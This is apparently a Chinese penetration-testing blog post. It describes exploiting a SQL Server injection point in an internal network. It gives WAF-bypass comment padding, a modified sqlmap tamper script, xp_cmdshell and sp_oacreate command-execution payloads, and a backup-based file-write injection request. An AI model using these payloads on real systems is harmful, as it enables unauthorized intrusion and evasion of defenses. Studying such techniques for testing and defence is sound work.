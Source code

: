 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。
title: SQL Server DBA WriteFile
url: /archivers/2020-01-01/3
---
```


## 0x01 前言

本文非基础类的普及文章，主要分享内网中遇到的一个有趣案例。

## 0x02 Bypass注入点

通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。

一开始在一处比较复杂的功能点发现了SQL Server的注入，也是首先利用AND进行判断：

![2020-01-03-13-13-15](https://images.payloads.online/7fe2d620-4f5f-11ec-8635-00d861bf4abb.png)

参数：ModuleType存在注入点，但是后面有一层站点全局输入的检测机制，从简单的测试来看，是不存在语法分析的一种，比较容易绕过。

我尝试了以下方案：

1. `and -> And`
2. `and -> /**/And`
3. `and -> /*xsww!s*/And`
4. `and -> /*xswwS1154-_[0)}!s*/And`
5. `and -> /***/And`

最终发现第五种可以绕过，使得后端无法辨别`/***/`是否和And是一个本体。

那么我猜想到了一个简单的表达式，似乎和这个过滤规则比较相向：`/*\w{0,}*/`

![2020-01-03-13-13-28](https://images.payloads.online/802bac1a-4f5f-11ec-9e26-00d861bf4abb.png)

## 0x03 tamper 自动化实现

这里我比较懒，直接改了以下space2comment.py，这个脚本在Kali Linux中的sqlmap目录下：

![2020-01-03-13-13-37](https://images.payloads.online/806ce52c-4f5f-11ec-b8ca-00d861bf4abb.png)

核心代码：

``` python
for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
```

只需要替换`/**/`即可：

![2020-01-03-13-13-49](https://images.payloads.online/80aa0ec0-4f5f-11ec-b7ad-00d861bf4abb.png)

接着，就可以跑出注入了\~

PS：我比较习惯于添加`--random-agent`参数，理由是在注入的过程中，避免被流量感知设备发现。

![2020-01-03-13-14-00](https://images.payloads.online/80ea6114-4f5f-11ec-8c7d-00d861bf4abb.png)

## 0x04 xp_cmdshell

到这一步的时候，我遇到了一个问题，SQLMAP调用exec master..xp_cmshell的时候被拦截了，因为后端还检测是否有`exec`、`master`，于是我还要将tamper加两句：

```
payload = payload.replace("exec","/***/Execute/***/")
payload = payload.replace("master..","/***//***/")
```

最终结果：`/***/execute/***//***/xp_cmdshell/***/'whoami'`

点击发包，还是无法执行，被360拦截了！

![2020-01-03-13-14-22](https://images.payloads.online/81373b24-4f5f-11ec-bb26-00d861bf4abb.png)

这个Error Code 5 ，是Windows的错误代码，中文意思就是：“拒绝访问”。

现在xp_cmdshell被拦截的很多了，但是sp_oacreate应该可以使用的：


参考我之前写的一篇文章：[Regsvr32 ole对象](https://payloads.online/archivers/2019-07-19/1)


```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

> 后续我发现该服务器无法出网，还是站库分离

**因此无法执行操作系统命令**

## 0x05 写入文件

在写文件这块，我浪费了大量的时间，首先要确定能否向站点目录写文件，当前写文件的操作是否被拦截等等因素。

一开始的思路是调用xp_cmdshell，采用echo去写，目前已无法执行命令，就此作罢，吸了一口芙蓉王，精神焕发，遂查到数据库备份的方式。

提交：

```
{"ClientType": "", "ClientGuid": "09a37ee1-5ec3-46db-9279-4cb066622e8d", "ModuleType": "A2501';use test222;create table [dbo].[test2] ([cmd] [image]);insert/***/into/***/test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);backup database test222 to disk='C:\test2.bak' WITH DIFFERENTIAL,FORMAT;-- ", "IsBackEnd": false }
```

页面返回正常。

但是，我的站点目录如果是中文呢？在Burp里处理就非常麻烦！

还记得之前的IIS 7.5吗，**IIS在接收到一个请求后，会自动将数据进行Unicode解码，如果流量设备、WAF不支持此特性的话，就可以进行绕过**，这里我着重解决中文目录的问题。

![2020-01-03-13-14-38](https://images.payloads.online/8185efc6-4f5f-11ec-b531-00d861bf4abb.png)

到这此文就结束了，我并没有成功Getshell，只是回顾我解决问题的思维方式，希望能对大家有用！

